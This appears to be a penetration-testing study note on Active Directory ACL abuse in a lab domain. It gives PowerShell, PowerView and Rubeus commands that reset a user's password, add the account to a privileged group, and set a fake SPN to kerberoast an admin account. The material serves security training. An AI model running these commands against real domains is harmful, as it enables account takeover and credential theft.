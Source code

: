 we can get whole attack path from `Transitive Object Control` Section

## **ACL Abuse Tactics**

From previous Section, we will continue to do attack

![Untitled](<../.gitbook/assets/ACTIVE DIRECTORY Enum & Attacks 4af4b148af5740d1a6a92a3c741df505/Untitled 9.png>)

* First we will use user `wley` to change password of `damundsen`
* then using `damundsen` we will use `Generic Write` right to add user we control to `Help Desk Level 1` group
* User of `Help Desk Level 1` group is member of `Info Tech` group and member of `Info Tech` group have generic all right over user `adunn`
* Thus we will take control of user `Adunn`
* `PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force` → creating $secpassword variable which stores passoword of wley
* `PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)` → creating $cred variable which stores PSCredential object which contains securely stored user credentials. Because later -Credential parameter expects a PSCredential object not a plain text string.
* `PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force` → creating variable to store password for damundsen user

import powerview and then

* `PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose` → changing password of user damundsen
* `PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $damundsenPassword)` → creating PSCredential object which contains creds of user damundsen

Before adding user damundsen to `Help Desk Level 1` Group, lets confirm our user is not a member of the target group

* `PS C:\htb> Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members`

Now lets add to `Help Desk Level 1` group

* `PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose`
* `PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName` → confirming damundsen was added to the group

If for some reason we donot have permission to interrupt the admin account `adunn`

we can create a fake SPN, then kerberoast to obtain TGS ticket and hopefully crack the hash offline .

* `PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose` → creating a fake SPN
* `PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap`
